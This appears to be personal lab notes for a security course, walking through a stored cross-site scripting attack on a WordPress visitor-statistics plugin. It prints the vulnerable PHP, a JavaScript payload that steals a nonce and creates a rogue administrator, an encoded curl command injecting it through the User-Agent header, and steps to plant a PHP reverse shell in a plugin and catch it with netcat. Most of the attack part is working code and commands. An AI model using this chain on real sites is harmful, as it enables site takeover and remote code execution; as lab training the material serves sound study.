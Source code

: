 ## Basic XSS

### White Box

#### Inspecting Visitor Plugin Record Creation Function
```php
function VST_save_record() {
	global $wpdb;
	$table_name = $wpdb->prefix . 'VST_registros';

	VST_create_table_records();

	return $wpdb->insert(
				$table_name,
				array(
					'patch' => $_SERVER["REQUEST_URI"],
					'datetime' => current_time( 'mysql' ),
					**'useragent' => $_SERVER['HTTP_USER_AGENT'],**
					'ip' => $_SERVER['HTTP_X_FORWARDED_FOR']
				)
			);
}
```

```PHP
$i=count(VST_get_records($date_start, $date_finish));
foreach(VST_get_records($date_start, $date_finish) as $record) {
    echo '
        <tr class="active" >
            <td scope="row" >'.$i.'</td>
            <td scope="row" >'.date_format(date_create($record->datetime), get_option("links_updated_date_format")).'</td>
            <td scope="row" >'.$record->patch.'</td>
            <td scope="row" ><a href="https://www.geolocation.com/es?ip='.$record->ip.'#ipresult">'.$record->ip.'</a></td>
            <td>'.$record->**useragent**.'</td>
        </tr>';
    $i--;
}
```
Each time a WordPress administrator loads the Visitor plugin, the function will execute the following portion of code from start.php.

### Black Box

#### Testing the plugin through black-box HTTP header fuzzing
![[Pasted image 20230502165236.png]]
Forwarded Request to repeater

#### Inject XSS in User-Agent field
![[Pasted image 20230502165319.png]]

#### Navigate to the Visitors plugin console at `http://offsecwp/wp-admin/admin.php?page=visitors-app%2Fadmin%2Fstart.php`
![[Pasted image 20230502165413.png]]
Logged in using admin/password credentials. Once the Visitors plugin is accessed you should be greeted with a pop-up banner showing the number 42, proving that the code injection worked.

## Privilege Escalation via XSS

#### Inspecting WordPress Cookies
![[Pasted image 20230502165731.png]]
Open the Web Developer Tools, navigate to the Storage tab, then click on `http://offsecwp` under the Cookies menu on the left.

#### Gathering WordPress Nonce
```JavaScript
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = **/ser" value="([^"]*?)"/g**;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```
The regex pattern matches any alphanumeric value contained between the string /ser" value=" and double quotes.

#### Now that we've dynamically retrieved the nonce, we can craft the main function responsible for creating the new admin user
```JavaScript
var params = "action=createuser&_wpnonce_create-user="+nonce+"&**user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator**";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

#### Ensure the JavaScript payload will be handled correctly by Burp and the target application by minifying the code at [JSCompress](https://jscompress.com/)
![[Pasted image 20230502171211.png]]
Once we have clicked on Compress JavaScript, we'll copy the output and save it locally.

#### Encode the minified JavaScript code, so any bad characters won't interfere with sending the payload
```JavaScript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);')
console.log(encoded)
```

#### Encoding the Minified JS with the Browser Console
![[Pasted image 20230502171745.png]]

#### Minified Code Inserted
```JavaScript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

#### Once we have copied the encoded string, we can insert it with the following curl command and launch the attack
```Shell
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
```
Before running the curl attack command, start Burp and leave Intercept on

#### Inspecting the Attack in Burp
![[Pasted image 20230502172115.png]]
Everything seems correct, so let's forward the request by clicking Forward, then disabling Intercept.

#### Loading Visitors Statistics
![[Pasted image 20230502173623.png]]

#### Confirming that our Attack Succeeded by clicking on the Users menu on the left pane
![[Pasted image 20230502173700.png]]

#### Change the password for attacker and log back in

#### Go to `Plugins` and `Plugin Editor` where `askimet/askimet.php` is located
![[Askimet.png]]

#### Add PHP Reverse Shell (Pentestmonkey) to Plugin
![[revshl.png]]

#### Click `Update File`

#### Go to `Installed Plugins` menu
![[plugins.png]]

#### Start a Netcat listener on your terminal
```Shell
nc -lnvp 8443
```

#### Click on `Active` under `Askimet Anti-Spam` to receive a reverse shell on your terminal

